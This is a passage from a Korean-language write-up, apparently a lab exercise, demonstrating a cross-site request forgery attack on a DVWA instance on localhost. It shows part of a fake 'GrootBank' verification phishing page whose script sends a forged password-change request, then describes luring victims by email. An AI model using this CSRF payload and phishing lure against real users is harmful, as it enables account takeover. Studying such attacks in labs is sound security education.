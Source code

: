 ```javascript

		xmlHttpRequest.send();
	
		alert("Thank you for your support! Your Account is mine"); 
        //링크를 클릭했을 때의 알림창
	}
</script>
<body>
	<h1>GrootBank Verification Page</h1>
	<div>
	Click this <a href="javascript:attack()">link</a> for verification.
	</div>
</body>
</html>
```

사용자가 웹 서버에 인증을 하였고 브라우저에 서버에서 전달받은 세션ID값을 저장한 상태라고 가정하였다. 이후 사용자가 공격자의 피싱 사이트에서 악의적인 스크립트 실행으로 인해 `http://localhost/vulnerabilities/csrf/?password_new=hacked&password_conf=hacked&Change=Change` 이와 같은 요청으로 변조되어 전달 된다면 서버를 속이고 요청 위조 공격에 성공하여 공격자의 의도대로 패스워드를 변경할 수 있을 것이다.

#### - 피싱사이트 접속 유도

![이미지](/assets/email확인.png)

공격자는 악성스크립트가 포함된 `GrootBank 은행 피싱사이트`를 사용자에게 메일로 전달함으로써, 사용자가 링크를 클릭하여 직접 접속하도록 유도하였다.

#### - 사용자 악성 스크립트 클릭 유도
